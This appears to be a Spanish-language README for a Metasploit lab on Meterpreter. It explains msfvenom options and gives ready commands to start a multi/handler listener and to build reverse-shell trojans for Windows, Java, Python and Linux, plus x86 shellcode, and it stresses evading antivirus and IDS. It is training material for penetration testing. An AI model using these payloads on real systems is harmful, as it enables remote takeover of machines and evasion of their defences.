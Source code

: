 # <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="llaves.png" width="4%">	Meterpreter 

> [!IMPORTANT]
> Laboratorio Meterpreter en <b>framework Metasploit</b> (Kali Linux 2023.4). Meterpreter (Meterpreter es el diminutivo para meta-interprete) es un payload que permite ejecutar tareas de forma remota en una máquina que se ejecuta en un nivel muy bajo de la máquina, por lo que es bastante difícil de detectar y, por tanto, muy útil para evadir sistemas antivirus, IDS o IPS. Gracias al payload Meterpreter, es posible realizar multitud de acciones sobre el sistema vulnerado, si bien no tiene porqué comportarse de la misma forma en todos los sistemas operativos. Este Payload que se ejecuta después del proceso de explotación o abuso de una vulnerabilidad en un sistema operativo, siempre en memoria, lo que evitará ser detectado.

> ### Trabajando con Meterpreter: MSFVenom y la generación de un Payload :computer:
> Con MSFVenom se simplifica la generación de payloads y los intentos de codificación de éstos, entre cuyas opciones podemos destacar: 
> - Payload, parámetro que especifica el payload que se utilizará.
> - Encoder, otro parámetro que especifica el algoritmo que se utilizará para realizar la codificación.
> - Format, donde se especifica el formato de salida del fichero (normalmente EXE, PY...)
> - Bad-chars, que indica un listado de bytes que no se deben generar en el proceso de obtención del payload (como por ejemplo, si se quieren evitar los bytes nulos '\x00' se añaden en la lista de este parámetro).
> - Iterations, que indica el número de iteraciones que se ejecutará el algoritmo del encoder (codificador)
> - Template, que permite elegir la plantilla de ejecutable que se utilizará.
> - Keep, que especifica que el payload se ejecutará en un thread (hilo) y no en el main del ejecutable, lo que produce un payload más sigiloso.


- <b>Paso 1</b>: Ya dentro de Metasploit Framework, se utilizará el exploit multi handler, payload que se utiliza para conectar con el objetivo. Dependiendo del tipo de payload, el handler queda a la espera (está en modo escucha) de una conexión por parte del payload cargado en el objetivo (reverse payload), llegando a iniciar una conexión contra el host y puertos objetivo en ciertos casos (bind payload). En la consola, se codifica:
<b>

```
use exploit/multi/handler
```
</b>

- <b>Paso 2</b>: Ahora, se procede a crear el payload como tal. La cuestión principal es para qué sistema operativo deberá estar preparado, tanto el tipo como la versión, arquitectura... ¡¡Todo con su máximo detalle!! Para ello, ejecutaremos <b>MSFVenom</b>, framework para Linux que combina la biblioteca de payloads y la de codificadores (encoders), de forma que permite generar un payload ofuscado (oculto a los sistemas antivirus y de protección) directamente. Para ello podemos consultar qué comandos tenemos disponibles:
<b>

```
msfvenom -h
```
</b>

Si queremos disponer de un listado con los posibles opciones y/o payloads, podemos utilizar el siguientes códigos:
<b>

```
# Listado de payloads
msfvenom -l payloads
```

```
# Listado de opciones para payloads
msfvenom -p [payload_elegido] --list-options
```
</b>

- <b>Paso 3</b>: Se crea el payload con los parámetros necesarios para que sea efectivo y no detectado en el host objetivo:
<b>

```
msfvenom -p [payload_elegido] LHOST=[ip_atacante] LPORT=[puerto_escucha_atacante] -o [fichero_resultante]
```
</b>

Como es evidente, se pueden dar ocasiones en las que se deba crear un payload "a medida" para el sistema operativo que está en el host objetivo, siempre según los análisis que hemos realizado mediante NMAP.
Así, podemos crear diversos tipos de payloads:
<b>

```
# Para Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -f exe > payload.exe
```

```
# En Java
msfvenom -p java/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -f jar > payload.jar
```

```
# En python
msfvenom -p python/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -o troyano.py
```

```
# Para Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -o troyano.exe
```

```
# Para Linux
msfvenom -p linux/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -o troyano.exe
```


```
# Buffer Overflow en Linux - Shellcode
msfvenom -p linux/x86/shell_reverse_tcp lhost=[ip_atacante] lport=[puerto_atacante] --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```




</b>